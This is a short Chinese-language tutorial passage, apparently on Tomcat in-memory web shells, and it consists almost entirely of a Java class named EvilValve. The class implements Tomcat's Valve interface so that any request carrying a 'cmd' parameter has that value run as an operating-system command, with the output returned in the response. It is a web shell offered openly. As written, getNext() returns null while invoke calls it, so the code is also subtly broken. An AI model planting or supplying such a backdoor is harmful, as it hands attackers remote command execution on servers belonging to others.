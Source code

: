 首先自定义可执行cmd的valve，实现Valve接口并重写其成员方法，核心代码块在invoke方法里

> EvilValve.java
>
> ```java
> package com.example.tomcat8;
> 
> import org.apache.catalina.Valve;
> import org.apache.catalina.connector.Request;
> import org.apache.catalina.connector.Response;
> 
> import javax.servlet.ServletException;
> import java.io.IOException;
> 
> public class EvilValve implements Valve{
>     @Override
>     public Valve getNext() {
>         return null;
>     }
> 
>     @Override
>     public void setNext(Valve valve) {
> 
>     }
> 
>     @Override
>     public void backgroundProcess() {
> 
>     }
> 
>     @Override
>     public void invoke(Request request, Response response) throws IOException, ServletException {
>         String cmd = request.getParameter("cmd");
>         if (cmd != null) {
>             Process process = Runtime.getRuntime().exec(cmd);
>             java.io.BufferedReader bufferedReader = new java.io.BufferedReader(
>                     new java.io.InputStreamReader(process.getInputStream())
>             );
>             StringBuilder stringBuilder = new StringBuilder();
>             String line;
>             while ((line = bufferedReader.readLine()) != null) {
>                 stringBuilder.append(line + '\n');
>             }
>             response.getOutputStream().write(stringBuilder.toString().getBytes());
>             response.getOutputStream().flush();
>             response.getOutputStream().close();
>             getNext().invoke(request, response);
>         }else {
>             getNext().invoke(request, response);
>         }
>     }
> 
>     @Override
>     public boolean isAsyncSupported() {
>         return false;
>     }
> }
> ```
